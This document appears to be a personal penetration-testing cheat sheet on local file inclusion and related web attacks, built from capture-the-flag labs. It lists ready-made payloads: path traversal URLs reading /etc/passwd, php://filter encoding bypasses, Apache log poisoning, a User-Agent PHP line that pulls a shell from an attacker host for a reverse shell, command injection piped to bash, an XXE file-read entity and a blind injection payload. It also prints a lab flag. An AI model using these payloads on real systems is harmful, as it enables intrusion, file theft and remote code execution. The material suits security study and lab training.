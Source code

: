 ```yaml
---
title: LFI 🎃
---
```

## Nice articcles to read

- [invicti.com](https://www.invicti.com/blog/web-security/local-file-inclusion-vulnerability/)
- [outpost24: lfi to RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

## Classic ones

- If you find the php code with the filter like:

```php
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

- You can just apply a filter like: `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../etc/passwd`

## Adding parameter file to url

- Linux File Inclussion
  - Check the `url` adding parameter `file`

![](Pasted%20image%2020240213235821.png)

## Fuzzing it

- FUZZ it using this command:
  - [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```


## Bypassing filters with encodings


- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index

# example
http://mafialive.thm/test.php?view=//filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

- Check out the &ext variable and put it empty because it won't get the file extension

## Log poisoning

- To perform this, first check out if you have access to the log file in an apache with Burpsuite:



- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```


## Exploiting the User-Agent field

- Exploit the User-Agent Field:
  - First create a shell like the PentestMonkey one
  - Create a python server
  - Load the petition (like log file contamination petition) and capture it with BurpSuite
  - Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

## Regex filtering

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```

## Web filtering

If a web shell filters your input, try to encode it into `base64`

![](Pasted%20image%2020240417160455.png)

- If it doesn't work, try some [Command Injection 💄](command_injection.md)

## XML file inclusion (XXE)

- Detailed info about XXE in [Portswiger.net](https://portswigger.net/web-security/xxe)

- If a web accepts XML, it could be vulnerable to XXE.
- You can try to upload a code like this to inspect the system:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Pavandeep</author>
  <com>Hacking Articles</com>
</comment>
```

- Change the `"file:///etc/passwd"` for the one you want

## Lfi to RCE

If you can read some files by some kind of escape, we can bruteforce the `/proc/self/` directory in Apache.

This directory holds information about different processes. Each process is distinguished by its PID as shown below:

![](Pasted%20image%2020240501160143.png)

Every process can access its available information by requesting the `/proc/self` directory.

As Apache is requesting this file (via the LFI vulnerability) and since the file is located inside Apache’s proc directory, we can use `/proc/self` instead of searching for Apache’s PID. In a brief recap we could say that `/proc/self/environ` is – roughly- equal to `/proc/<apache_pid>/environ`.

The contents of this directory are [symbolic links](https://www.nixtutor.com/freebsd/understanding-symbolic-links/) pointing to the actual file of the process’ open file handlers:

![](Pasted%20image%2020240501160310.png)

It goes without saying that during the attack we do not know which symbolic link points to which file. The file we will be interested in is the Apache [access log](https://httpd.apache.org/docs/2.4/logs.html#accesslog). We choose this file as it’s dynamic and can be changed based on our input.

To identify the file, we will use Burp Intruder.

> First, we set up the position of our payload.

![](Pasted%20image%2020240501160409.png)

> As File Descriptors are identified by a numeric id, we choose the proper payload. `Payloads > Payload type: Numbers`

![](Pasted%20image%2020240501160501.png)

> A successfull attack should look like:

![](Pasted%20image%2020240501161147.png)

Now we would perform a **Log Poisoning** attack.

## Path traversal

- Nice tool to use (automatic tool): [PathTraversal](https://github.com/gotr00t0day/PathTraversal)

Example:

```shell
https://invented-domain.com/image?filename=image.png
# You can perform
https://invented-domain.com/image?filename=....//....//....//etc/passwd
```

Otherwise, if you want to do it manual you can use BurpSuite and try some combinations.

## Blind OS command injection

If you've got this kind of request:

![](Pasted%20image%2020240513160938.png)

Use the following payload:

```shell
||whoami>>/var/www/images/results.txt||
```

![](Pasted%20image%2020240513161049.png)